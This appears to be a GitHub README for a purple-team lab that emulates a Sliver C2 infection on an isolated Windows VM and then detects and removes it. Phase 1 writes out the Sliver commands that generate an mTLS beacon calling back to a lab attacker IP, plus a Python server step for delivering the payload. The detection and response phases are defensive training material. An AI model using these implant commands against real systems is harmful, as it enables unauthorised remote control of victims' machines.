










# Enterprise C2 Detection & Incident Response Lab 🛡️

## 📌 Project Overview
This repository documents a comprehensive Purple Teaming laboratory exercise focused on simulating, detecting, and mitigating an advanced Command and Control (C2) infrastructure. The project demonstrates the lifecycle of a malware infection, from payload weaponization to endpoint eradication, providing practical insights into SOC analysis and threat hunting.

**Key Objectives:**
- Generate and deliver a custom mTLS beacon payload using the Sliver C2 framework.
- Analyze network traffic packets to detect payload delivery and C2 beaconing patterns.
- Utilize Sysinternals suite for live endpoint telemetry and process analysis.
- Execute an Incident Response (IR) drill for containment and eradication.

---

## 🏗️ Lab Architecture
- **Attacker Machine:** Kali Linux (IP: `192.168.56.1`)
- **Victim Machine:** Windows 10 x64 (IP: `192.168.56.101`)
- **Network Configuration:** Host-Only Adapter (Isolated Environment)
- **Tools Utilized:** 
  - Sliver C2 Framework (Adversary Emulation)
  - Python3 HTTP Server (Payload Delivery)
  - Wireshark (Deep Packet Inspection)
  - Sysinternals TCPView & Process Explorer (Endpoint Telemetry)

---

## ⚔️ Phase 1: Attack Emulation (Red Team)

### 1. Weaponization
A robust 64-bit Windows executable payload (`SATISFIED_ASTROLABE.exe`) was generated using Sliver. The payload was configured to communicate over mTLS on Port 8888, utilizing a 30-second beacon interval with a 10-second jitter to evade static time-based detection rules.

```bash
# Sliver Listener & Payload Generation Commands
sliver > mtls
sliver > generate beacon --mtls 192.168.56.1 --os windows --arch amd64 --format exe --seconds 30 --jitter 10
```


### 2. Payload Delivery
The payload was hosted on the attacker machine using a lightweight Python HTTP server. The victim machine navigated to the directory and downloaded the executable, simulating a drive-by download or phishing vector.

```bash
# Hosting the payload on Port 8080
python3 -m http.server 8080
```




### 3. Command & Control (C2) Establishment
Upon execution on the Windows endpoint, the payload successfully established an mTLS connection back to the Sliver server. The jitter parameter successfully randomized the check-in times.





---

## 🔍 Phase 2: Threat Hunting & Detection (Blue Team)

### 1. Network-Level Detection
Deep packet inspection was performed using Wireshark to analyze the initial infection vector. By filtering the traffic, the cleartext HTTP GET request for the malware was identified.

- **Filter Used:** `ip.addr == 192.168.56.101 && ip.addr == 192.168.56.1`
- **Observation:** TCP 3-way handshake followed by `GET /SATISFIED_ASTROLABE.exe HTTP/1.1` on port 8080.



### 2. Endpoint-Level Detection
Sysinternals tools were utilized to correlate the network activity with local endpoint processes. 
- **Process Explorer:** Identified the active malware process running in the background without a verified signature.
- **TCPView:** Confirmed the malicious process maintaining active `SYN_SENT` and `ESTABLISHED` states connecting to the remote attacker IP on Port 8888.





---

## 🚨 Phase 3: Incident Response (Containment & Eradication)

Following the detection, immediate incident response procedures were initiated to neutralize the threat.

### 1. Containment
The active connection was severed by isolating the process in TCPView and forcefully terminating it, cutting off the adversary's access to the endpoint.



### 2. Verification
Verification on the attacker infrastructure (Sliver Console) confirmed the successful eradication. The beacons failed to check in, with the "Last Check-In" timer exceeding 15 minutes, rendering the sessions dead.



---
## 👨‍💻 Author
Ayush Kumar Patel
Applying enterprise-grade defensive strategies and continuous research in SOC operations.

*Disclaimer: This repository is for educational and authorized testing purposes only. All activities were conducted in a strictly isolated, locally hosted virtual laboratory.*
